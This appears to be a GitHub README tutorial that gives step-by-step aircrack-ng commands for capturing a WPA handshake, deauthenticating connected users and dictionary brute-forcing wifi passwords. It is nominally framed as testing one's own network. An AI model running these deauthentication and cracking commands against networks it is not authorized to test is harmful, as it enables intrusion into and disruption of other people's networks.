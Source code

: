 <p align="center"> 
  <img src="https://cdn-icons-png.flaticon.com/512/81/81944.png" alt="HackingWifi" width="80" height="80">
</p>
<h1 align="center">HackingWifi</h1>


This repository will detail the principle of testing your network. With <a href="https://www.aircrack-ng.org/">aircrack-ng</a>.<br>

__You can look at the script repository for hacking a wifi network. <a href="https://github.com/John-MetrosSoftware/HackingWifiScript">Link</a>.__

## Install aircrack-ng
```
sudo apt install aircrack-ng
```

## Remove unnecessary processes
This command will check and kill processes that might interfere with the aircrack-ng package:
```
sudo airmon-ng check kill
```
## Putting the wifi adapter into monitoring mode
You need to define your network interface. To do this, use the command below, it will display all available network interfaces.
```
ifconfig
```
We are interested in the `wlan0` network interface.<br>
Now we need to put our network adapter into monitoring mode.<br>
```
sudo airmon-ng start wlan0
```
## Monitoring of all wifi networks.
Start browsing wifi networks.
```
sudo airodump-ng wlan0
```
## Monitoring of a specific wifi network.
After viewing, we need to select a target for attack.<br>
The parameters we are interested in are: `bssid` and `channel`.
After the selection, we start interception on a specific access point.
```
airodump-ng --bssid <bssid> -c <cannel> -w <name_wpa_handshake> <network_interface>
```
Example:
```
airodump-ng --bssid ff:ff:ff:ff:ff:ff -c 1 -w handshake wlan0
```
## Wifi network user deauthentication
Now we need to open a new console window.<br>
Now you need to authenticate users of the wifi network. With airplay-ng.
```
aireplay-ng --deauth <number_of_users> -a <bssid> <network_interface>
```
Example:
```
aireplay-ng --deauth 0 -a ff:ff:ff:ff:ff:ff wlan0
```
## Bruteforce
After capturing the handshake, we start brute-force the password using the dictionary. You can use `rockyou.txt` located in `/usr/share/wordlists/rockyou.txt`. If it is packed in an archive, that is, the file name is `rockyou.txt.gz`, then you need to unpack it with the command below.
```
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
We will use this dictionary for brute force, but you can use your own.
```
aircrack-ng <name_wpa_handshake> -w <path_to_dictionary>
```
Example:
```
aircrack-ng handshake-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Conclusion
After that, if specifically in the dictionary you specified there is a password combination that will be correct, then the password will be determined and brute force will end; if there is no such combination in the dictionary, then try in another one.
<br><br>
Here we have analyzed the easiest way to hack a wifi network using brute force.

